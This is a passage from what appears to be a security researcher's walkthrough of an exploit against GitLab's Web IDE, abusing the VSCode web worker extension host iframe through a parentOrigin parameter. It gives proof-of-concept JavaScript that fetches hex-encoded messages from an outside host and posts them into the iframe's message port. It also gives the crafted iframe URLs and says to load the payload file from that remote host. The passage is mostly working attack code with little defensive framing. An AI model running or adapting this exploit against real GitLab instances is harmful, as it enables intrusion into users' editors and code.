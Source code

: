 ````html
            setTimeout(resolve, ms)
        })
    }
    async function send_everything() {
        const hex_lines = (await fetch_text("send_hex.txt")).split("\n")
        await sleep(100)
        for (hex of hex_lines) {
            const rawmsg = hex2buf(hex)
            // console.log("%csent: " + decode(rawmsg), "color: gray")
            port.postMessage(rawmsg)
            await sleep(5)
        }
    }
</script>
````

Let's start with modifying the iframe src

````html
<iframe src="https://gitlab.com/assets/webpack/gitlab-VSCode/0.0.1-dev-20240501001436/VSCode/out/vs/workbench/services/extensions/worker/webWorkerExtensionHostIframe.html?&VSCodeWebWorkerExtHostId=asdf&parentOrigin=https://peo.si"></iframe>
````

Eg for mine local instance it's this http://127.0.0.1:1337/assets/webpack/gitlab-VSCode/0.0.1-dev-20240226152102/VSCode/out/vs/workbench/services/extensions/worker/webWorkerExtensionHostIframe.html?&VSCodeWebWorkerExtHostId=asdf&parentOrigin=http://127.0.0.1:1338

Also you need to replace one thing, here the url is relative so make it absolute, well spoiler alert all the magic is happening inside this only ;)

````
fetch_text("https://peo.si/gl/editor/send_hex.txt")
````

In console you could see a message like this
![Pasted image 20250714201326.png](/tmp/cdn-images/Pasted%20image%2020250714201326.png)
